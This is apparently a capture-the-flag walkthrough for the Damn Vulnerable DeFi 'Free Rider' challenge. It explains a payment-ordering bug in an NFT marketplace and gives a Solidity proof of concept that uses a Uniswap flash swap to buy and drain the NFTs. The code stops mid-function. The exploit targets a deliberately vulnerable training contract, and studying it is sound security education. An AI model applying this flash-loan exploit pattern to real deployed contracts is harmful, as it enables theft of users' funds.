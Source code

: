 **Objective**

_from `_isSolved()` in test_

1. _The recovery owner extracts all NFTs from its associated contract_
2. _Exchange must have lost NFTs and ETH_
3. _Player must have earned all ETH_

**Attack Analysis**

- The bug is located in the function `FreeRiderNFTMarketplace._buyOne()`. The payment is sent after transfering the token and thus, the buyer is received the payment instead of the seller.
- An attacker can exploy this vulnerability by just buying the NFTs.
- Since the player doesn't have enough funds to execute the recovery, i.e. buy the NFTs, they have to do a Flash Swap against the `uniswapPair`. To do so, a contract needs to be implemented to receive the funds from the swap.

**POC**

See [test/free-rider/FreeRider.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/free-rider/FreeRider.t.sol)

```solidity
function test_freeRider() public checkSolvedByPlayer {
    Recover recover = new Recover(marketplace, recoveryManager, uniswapPair, weth);
    bytes memory data = abi.encode(address(player));

    uniswapPair.swap((NFT_PRICE * 6), 0, address(recover), data);
}

contract Recover {
    FreeRiderNFTMarketplace marketplace;
    FreeRiderRecoveryManager recoveryManager;
    IUniswapV2Pair uniswapPair;
    WETH weth;

    constructor(
        FreeRiderNFTMarketplace _marketplace,
        FreeRiderRecoveryManager _recoveryManager,
        IUniswapV2Pair _uniswapPair,
        WETH _weth
    ) {
        marketplace = _marketplace;
        recoveryManager = _recoveryManager;
        uniswapPair = _uniswapPair;
        weth = _weth;
    }

    receive() external payable {}

    function uniswapV2Call(address, uint amount0, uint, bytes calldata data) external {
        weth.withdraw(amount0);

        uint256[] memory tokenIds = new uint256[](6);
        for (uint256 i = 0; i < tokenIds.length; ++i) {
            tokenIds[i] = i;
        }

        marketplace.buyMany{value: 15 ether}(tokenIds);

        for (uint256 i = 0; i < tokenIds.length; ++i) {
            marketplace.token().safeTransferFrom(address(this), address(recoveryManager), i, data);
        }

        uint amount0Repay = (amount0 * 1004) / 1000;
        weth.deposit{value: amount0Repay}();
        weth.transfer(address(uniswapPair), amount0Repay);
```